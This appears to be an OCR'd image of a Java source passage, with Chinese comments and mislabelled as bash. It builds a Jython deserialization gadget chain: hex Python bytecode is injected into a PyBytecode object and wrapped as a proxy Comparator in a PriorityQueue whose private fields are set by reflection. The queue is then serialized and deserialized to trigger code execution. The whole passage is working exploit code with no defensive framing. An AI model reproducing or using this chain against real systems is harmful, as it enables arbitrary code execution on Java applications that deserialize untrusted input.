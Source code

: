 ```bash
        // 初始化 PyBytecode
        PyBytecode bytecode = new PyBytecode(2, 2, 10, 64, "", consts, names, new String[]{"", ""}, "noname", "<module>", 0, "");
        Field field    = PyBytecode.class.getDeclaredField("co_code");
        field.setAccessible(true);
        field.set(bytecode, new BigInteger(pythonByteCode, 16).toByteArray());

        // 使用 PyBytecode 初始化 PyFunction
        PyFunction handler = new PyFunction(new PyStringMap(), null, bytecode);

        // 使用 PyFunction 代理 Comparator
        Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

        PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
        Object[]              queue         = new Object[]{path, code};

        Field queueField = PriorityQueue.class.getDeclaredField("queue");
        queueField.setAccessible(true);
        queueField.set(priorityQueue, queue);

        Field sizeField = PriorityQueue.class.getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(priorityQueue, 2);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(priorityQueue);

        byte[] bytes = byteArrayOutputStream.toByteArray();
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}
```
